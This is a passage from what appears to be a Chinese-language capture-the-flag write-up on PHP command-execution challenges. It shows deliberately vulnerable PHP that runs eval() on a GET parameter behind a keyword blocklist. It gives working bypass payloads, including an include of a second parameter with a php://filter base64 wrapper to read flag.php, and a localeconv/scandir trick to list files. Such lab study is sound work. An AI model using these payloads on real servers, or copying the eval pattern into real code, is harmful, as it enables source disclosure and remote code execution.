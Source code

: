 用**localeconv**数组的第一个数据**. 小数点**传给**scandir**

因为**scandir**的返回数组前两个为小数点，所有要**array_reverse**一下

此时第一个为index.php，第二个(**next**)就是flag.php

#### 32

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

**( ` ' ;空格** 都被过滤了，很多函数都用不了

考虑不需要括号的函数 **include**

(不需要括号的函数**include require unset isset print echo**)

`?c=include$_GET[1]?>&1=`

变成了文件包含题

`?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php`

即可

#### 33

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了一个双引号，用上一题的办法同样可以

换成**require**也可以

> **require**和**include**在包含纯文件(无后缀)时会直接显示出来，php是包含这个文件(不会打印出来)，可以用它的函数或者变量

#### 34
